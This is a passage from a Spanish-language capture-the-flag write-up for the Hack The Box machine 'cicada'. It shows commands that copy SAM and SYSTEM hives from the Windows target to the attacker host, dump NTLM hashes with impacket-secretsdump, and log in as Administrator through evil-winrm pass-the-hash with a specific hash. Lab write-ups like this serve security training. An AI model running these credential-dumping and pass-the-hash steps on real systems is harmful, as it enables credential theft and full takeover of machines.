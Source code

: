 Se enviar los archivo `samR` y `systemR` desde Windows a la maquina host.
```ruby
copy samR \\10.10.14.100\KzFFile\samR
copy systemR \\10.10.14.100\KzFFile\systemR
```

Se realiza la explotación con `impacket` para ver lo archivos que fueron copiados y revisar que contienen, pero va hacer en LOCAL.
```ruby
impacket-secretsdump -sam samR -system systemR LOCAL
```

Con esa información miramos que obtenemos los hash NTLM, pero lo interesante es que obtenemos el Hash NTLM del usuario `Administrator`.

![img](./img/cicada/img21.png)

Ahora con el hash NTLM y utilizando `evil-winrm` con la parte del hash LM la usamos para conectarnos a la cuenta del usuario `Administrator`.
```ruby
evil-winrm -i cicada.htb -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'
```

Se ha logrado acceder a la maquina con el usuario `Administrator`, obteniendo los altos privilegios sobre la maquina, utilizando la técnica de `pass-the-hash`.

![img](./img/cicada/img22.png)
